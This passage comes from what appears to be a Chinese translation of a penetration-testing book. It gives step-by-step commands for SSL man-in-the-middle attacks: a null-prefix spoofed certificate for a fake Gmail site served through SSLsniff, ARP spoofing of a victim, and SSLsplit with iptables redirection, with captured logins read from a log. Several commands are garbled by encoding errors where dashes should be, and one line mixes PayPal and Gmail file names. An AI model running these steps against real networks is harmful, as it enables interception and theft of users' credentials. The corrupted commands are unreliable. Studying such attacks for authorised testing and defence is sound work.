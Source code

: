 我们在**通用名称**（**CN**）中使用 Unicode `\x00`作为占位符，遵循优秀教程提供的指导，链接在这里：[`www.kimiushida.com/bitsandpieces/articles/attacking_ssl_with_sslsniff_and_null_prefixes/`](http://www.kimiushida.com/bitsandpieces/articles/attacking_ssl_with_sslsniff_and_null_prefixes/)。创建一个真正的欺骗证书作为后端编程是必要的，以创建允许受害者浏览器接受的空字符。创建`cert`和`key`后，我们需要使用自己的 CA 签署证书，连接`key`和`cert`，然后将其放置在我们假网站的目录中：

```
openssl ca -config openssl.cnf -policy policy_anything -out gmail.crt -infiles gmail.csr
cat paypal.crt gmail.key > gmail.pem
mkdir -p /usr/share/sslsniff/certs/fakegmail/
cp gmail.pem /usr/share/sslsniff/certs/fakegmail/ 
```

假设您已经正确配置了 IP 转发和`iptables`，SSLsniff 可以使用一个命令启动：

```
sslsniff -t -c /usr/share/sslsniff/certs/fakegmail -s 1111 -w /tmp/sslsniff.log -d â��p 
```

现在我们已经让 SSLsniff 等待我们受害者的流量，我们可以开始使用与 SSLstrip 中使用的相同类型的`arpspoof`来重定向来自客户端的流量：

```
arpspoof â��I eth0 â��t 172.16.30.135 172.16.30.2 
```

您可以查看`sslsniff.log`文件的内容并查看凭证（如下图所示）。这种攻击的成功可能性比 SSLstrip 更大，因为用户仍然会在其浏览器的地址栏中看到一个 HTTPS 会话；并且根据受信任的 CA 配置，他们可能很少意识到事情并不顺利。如果您使用真正的欺骗证书（查看此教程了解可能发生的情况：[`blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/`](https://blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/)），它甚至看起来是有效的。

![](img/B03918_08_14.png)

查看 SSLsniff 的凭证抓取

#### SSLsplit

SSLsplit 采用类似的方法；首先，您需要确保启用了 IP 转发。通常会使用更多的`iptables`条目来拉取更多的端口，提供 NAT，并使用`80`、`8080`、`443`和`8443`的典型重新映射端口：

```
iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp â��dport 80 -j REDIRECT â��to-ports 8080
iptables -t nat -A PREROUTING -p tcp â��dport 443 -j REDIRECT â��to-ports 8443
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 80 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8080 -j ACCEPT
service iptables save 
```

现在我们可以使用一个命令启动 SSLsplit。请注意，与生成欺骗证书相关的繁重开销已经消除；这非常有帮助，因为我们可以部署它来收集多个站点的信息，而无需为每个站点生成假证书：

```
sslsplit -l connections.log -S ~/scrapes/ -k ~/sslsplit-keys/ca.key -c ~/sslsplit-keys/ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080 
```

与 SSLsniff 一样，输出指向一个日志文件，告诉您可以在`~/scrapes`文件夹中找到日志。

#### 替代中间人攻击动机
